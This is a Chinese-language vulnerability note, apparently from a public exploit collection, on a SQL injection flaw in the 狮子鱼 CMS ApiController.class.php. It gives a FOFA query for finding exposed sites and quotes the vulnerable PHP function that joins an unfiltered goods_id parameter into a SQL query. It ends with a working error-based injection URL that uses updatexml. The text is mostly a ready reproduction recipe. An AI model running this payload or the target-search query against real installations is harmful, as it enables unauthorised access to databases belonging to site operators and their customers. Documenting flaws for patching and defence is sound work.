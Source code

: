 # 狮子鱼CMS ApiController.class.php SQL注入漏洞

## 漏洞描述

狮子鱼CMS ApiController.class.php  参数过滤存在不严谨，导致SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 狮子鱼CMS

## FOFA

> [!NOTE]
>
> "/seller.php?s=/Public/login"

## 漏洞复现

登录页面如下

![](image/szy-1.png)

存在漏洞的文件为 **ApiController.class.php  **, 关键位置为

```php
public function goods_detail()
	{
		$goods_id = I('get.goods_id');
		//gallery =>img_url
		//goods goods.goods_desc  goods_name group_price  market_price  sell_count group_number 
		
		$sql="select g.*,gd.description,gd.summary,gd.tag from ".
		C('DB_PREFIX')."goods g,".C('DB_PREFIX')."goods_description gd where g.goods_id=gd.goods_id and g.goods_id=".$goods_id;
		
		$goods_arr=M()->query($sql);
		
		$qian=array("\r\n");
		$hou=array("<br/>");
		$goods_arr[0]['summary'] = str_replace($qian,$hou,$goods_arr[0]['summary']); 
		
		$sql="select image from ".C('DB_PREFIX')."goods_image where goods_id=".$goods_id;
		$goods_image=M()->query($sql);
		
		$gallery = array();
		$default_image = '';
		foreach($goods_image as $val)
		{
			$val['img_url'] = str_replace('http','https',C('SITE_URL')).'/Uploads/image/'.$val['image'];
			
			if(empty($default_image))
			{
				$default_image = str_replace('http','https',C('SITE_URL')).resize($val['image'], C('goods_thumb_width'), C('goods_thumb_height'));
			}
			
			$gallery[] = array('img_url' => $val['img_url']); 
		}
		
		$goods = $goods_arr[0];
```

![](image/szy-8.png)

漏洞测试为

```
https://xxx.xxx.xx.xxx/index.php?s=api/goods_detail&goods_id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```

![](image/szy-9.png)